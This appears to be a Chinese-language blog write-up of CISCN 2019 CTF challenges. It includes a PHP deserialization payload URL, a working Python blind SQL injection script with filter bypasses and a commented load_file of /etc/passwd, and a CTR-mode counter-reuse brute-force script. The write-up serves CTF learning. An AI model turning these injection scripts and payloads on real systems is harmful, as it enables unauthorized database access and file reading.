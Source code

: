 ```yaml
---
title: Ciscn 2019 初赛 Writeup
date: 2019-04-25 00:23:14
tags: [writeup]
---
```


输出了两题 web + 一题 crypto, 太菜了 QAQ  
因为也是要交上去的, 就写的比较简单了.  

<!--more-->

## JustSoso

根据html内的提示, `php://filter/read=convert.base64-encode/resource=index.php`  
和 `php://filter/read=convert.base64-encode/resource=hint.php` 得到源码,  
之后代码审计.  

1. 通过 ///index.php 使 parse_url 返回 false, 绕过 payload 内不能有 flag 的限制
2. 通过引用的方式, 绕过 $this->token === $this->token_flag
3. 将序列化后的字符串 `"Handle":1` 的改为 2, 使其反序列时不调用 __wakeup 魔术方法, 让 handler 正常调用

最后 payload:  
`http://fe95bbad6a4f406cbd981c3496fb83f2be3784a02dfb46d1.changame.ichunqiu.com///index.php?file=hint.php&payload=O%3A6%3A%22Handle%22%3A2%3A%7Bs%3A14%3A%22%00Handle%00handle%22%3BO%3A4%3A%22Flag%22%3A3%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A10%3A%22token_flag%22%3Bs%3A32%3A%226754e06e46dfa419d5afe3c9781cecad%22%3Bs%3A5%3A%22token%22%3BR%3A4%3B%7D%7D`


## 全宇宙最简单的SQL

尝试 `admin'asdasd` 返回数据库操作失败, 说明存在注入漏洞,  
尝试盲注但是发现 `benchmark` 和 `sleep` 全部被替换为 `QwQ`, 随即尝试布尔注入,  
发现 `if` 和 `case` 也被过滤. 最后用短路求值的方式代替 if, 并用 `exp(710)` 产生错误,  
如果前面语句返回 true, 将返回数据库操作失败, 如果前面语句返回 false, 返回账号登录失败. 且表名为常见名称 user,  
列名通过虚表的方式绕过.

```python
import requests
import string
from tqdm import tqdm
# url = "http://0d3316846cd2408dbfdf95808c03f3f5714e7d9655ee4d4e.changame.ichunqiu.com/"
url = "http://106.119.182.216/"
# username=asd'/**/and/**/1=(SELECT/**/database()/**/like/**/'z')/**/and/**/exp(710)#&password=admin
sess = requests.session()
sess.headers["Host"] = "0d3316846cd2408dbfdf95808c03f3f5714e7d9655ee4d4e.changame.ichunqiu.com"
# database: ctf
# table: user
# 2 col
# /fll1llag_h3r3 2,F1AG@1s-at_/fll1llag_h3r3
# f"asd'/**/and/**/1=(SELECT/**/version()/**/like/**/'{i}')/**/and/**/exp(710)#",
# asd'/**/and/**/1=(select(SELECT/**/group_concat(`1`)/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/user)asd)/**/like/**/'a%')/**/and/**/exp(710)#
# f"asd'/**/and/**/1=(select(SELECT/**/hex(group_concat(`2`))/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/user)asd)/**/like/**/'{tmp}%')/**/and/**/exp(710)#",
# f"asd'/**/and/**/1=(select/**/load_file(0x2f6574632f706173737764)/**/like/**/'{tmp}')/**/and/**/exp(710)#",
#table = string.printable[:-5]
#table = table.replace("%", '')
#table = table.replace("'", "")
#table = table.replace("\\", "")
table = "0123456789ABCDEF"
curr = ''
for _ in range(999):
    for i in tqdm(table):
        tmp = curr + i + "%"
        data = {
            "username": f"asd'/**/and/**/1=(select(SELECT/**/hex(group_concat(`2`))/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/user)asd)/**/like/**/'{tmp}%')/**/and/**/exp(710)#",
            "password": "admin"
        }
        success = False
        while not success:
            try:
                res = sess.post(url, data, timeout=2)
                success = True
            except Exception:
                pass
        res = res.content
        res = res.decode('utf-8')
        if "数据库操作" in res:
            curr += i
            print(curr)
            break
        if i == table[-1]:
            raise Exception
```
![](https://i.loli.net/2019/04/25/5cc08eb862dd6.png#center)

最后得到 admin 的密码为 `F1AG@1s-at_/fll1llag_h3r3`, 尝试直接 load_file读取失败.  
应该是没有权限, 随即在web上尝试登录admin, 发现是 mysql 客户端连接并执行语句的服务.  
猜测有客户端读任意文件的漏洞, 可以直接拿到flag文件.

![](https://i.loli.net/2019/04/25/5cc08eb884ce6.png#center)
![](https://i.loli.net/2019/04/25/5cc08eb889b62.png#center)


## warmup

题目采用的是 CTR 模式, 而且每次加密采用同一计数器,  
只要第一次发送空, 之后每次爆破一位比对是否与第一次对应位置的值相同即可.  

```python
from remoteCLI import CLI
from binascii import unhexlify
import string
from tqdm import tqdm

result = r'result>([0-9a-f]{0,})'

cli = CLI()
cli.connect("fc32f84bc46ac22d97e5f876e3100922.kr-lab.com", 12345)
cli.sendLine('')
res = cli.recvUntilFind(result)[0]
flag = unhexlify(res)
flagLen = len(flag)
table = string.printable[:-5]
curr = ''
for seq in range(flagLen):
    for i in tqdm(table):
        cli.sendLine(curr + i)
        res = cli.recvUntilFind(result)[0]
        res = unhexlify(res)
        if res[seq] == flag[seq]:
            curr += i
            print(curr)
            break
```